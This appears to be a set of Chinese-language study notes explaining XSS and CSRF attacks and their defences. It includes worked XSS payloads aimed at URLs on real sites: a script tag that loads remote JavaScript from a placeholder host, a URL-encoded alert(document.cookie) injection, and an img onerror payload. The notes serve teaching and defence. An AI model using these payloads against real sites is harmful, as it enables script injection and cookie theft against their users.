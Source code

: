     * 分类
        * 存储型XSS 
            * 攻击者将恶意代码提交到目标网站的数据库中。
            * 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器
        * 反射型XSS
            * 攻击者构造出特殊的 URL，其中包含恶意代码。
            * 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。（比如URL中的参数）
        * DOM型XSS
            * 攻击者构造出特殊的 URL，其中包含恶意代码。
            * 用户打开带有恶意代码的 URL。
            * 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
    * 解决
        * 转义页面上的输入内容和输出内容
        * cookie 设置 httpOnly,禁止javascript读取cookie
        * 设置验证码，防止脚本冒充提交危险操作
        

例如：

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`
```js
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```
攻击者发现`http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 uin、domain 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：
```js
<script>
getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";return false;</script><script>alert(document.cookie)</script>"+"...
```
用户通过文本框输入的信息来显示在页面上，那么在文本框输入如下内容
`<img src = "abc" onerror = "alert(1)" />`
```

```
#### CSRF: 跨站请求伪造，防护:

简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并运行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去运行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。
* 解决办法
    * 验证HTTP Referer
        * Referer字段记录请求来源地址 检验是否是同一个源
    * 在请求地址中添加takon验证
        *  HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token
        * 服务器现在页面埋入特定标志，在用户请求时带上此标记，来判断请求是否合法
    * 不被第三方网站访问到用户的cookie sameSite标记
